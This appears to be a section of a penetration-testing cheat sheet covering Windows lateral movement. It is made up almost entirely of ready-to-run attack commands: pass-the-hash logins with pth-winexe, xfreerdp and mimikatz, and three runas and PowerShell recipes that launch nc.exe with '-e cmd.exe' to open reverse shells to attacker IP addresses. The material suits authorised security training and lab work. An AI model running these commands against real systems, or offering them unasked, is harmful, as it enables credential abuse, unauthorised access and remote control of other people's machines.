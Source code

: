 ### Lateral Movement

#### Pass the Hash (PTH)

Using NTLM credentials, you can login to other Windows systems that the user has access to:

<u>From Kali</u>

```bash
# Local login
pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:NTLM_HASH_HERE //10.11.1.1 cmd.exe
# Domain login
pth-winexe -U domain/user%aad3b435b51404eeaad3b435b51404ee:NTLM_HASH_HERE //10.11.1.1 cmd.exe

# Options
cmd.exe can be replaced with any command, but cmd.exe will give you a shell
```

<u>PTH over RDP</u>

```bash
# Install freerdp-x11
apt-get update
apt-get install freerdp-x11
# Connect
xfreerdp /u:user1 /d:mydomain /pth:NTLM_HASH_ONLY /v:1.1.1.1
```

Local with mimikatz (Locally spawns a process and changes the access token to the username/hash specified)

```bash
mimikatz
sekurlsa::pth /user:someuser /domain:mydomain /ntlm:NTLM_ONLY_HASH /run:"cmd.exe"
# I think you may just leave domain off if it's local only or just put "/domain:."
```

#### Run Commands as Users

Option 1 (likely not to work)

If `cmdkey /list` returns entries, it means that you may able to runas certain user who stored his credentials in windows.

```powershell
runas /savecred /user:Domain\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
```

Option 2 (can be run as PS script too):

```powershell
$username = 'USERNAME_HERE'
$password = 'PASSWORD_HERE'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","192.168.119.216","8001","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Option 3 (can be run as PS script too):  *Note:  This is untested*

```powershell
$secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)
$computer = "GHOST"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

